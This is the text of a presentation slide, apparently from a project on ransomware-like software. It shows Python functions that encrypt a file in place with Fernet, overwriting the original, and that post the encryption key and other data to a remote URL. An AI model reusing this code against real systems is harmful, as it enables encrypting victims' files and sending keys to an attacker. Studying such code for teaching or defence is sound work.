

# 4. Implementation & Testing

Coding block
def Encrypt(self, filename):
    f = Fernet(key)
    with open(filename, "rb") as file:
        file_data = file.read()
    encrypted_data = f.encrypt(file_data)
    with open(filename, "wb") as file:
        file.write(encrypted_data)
    print(filename)

def SendData(decrypted):
    now = datetime.now()
    date = now.strftime("%d/%m/%Y %H:%M:%S")
    data = f'[{digits}, {key}, "{date}", "{decrypted}"]'
    requests.post(url, data)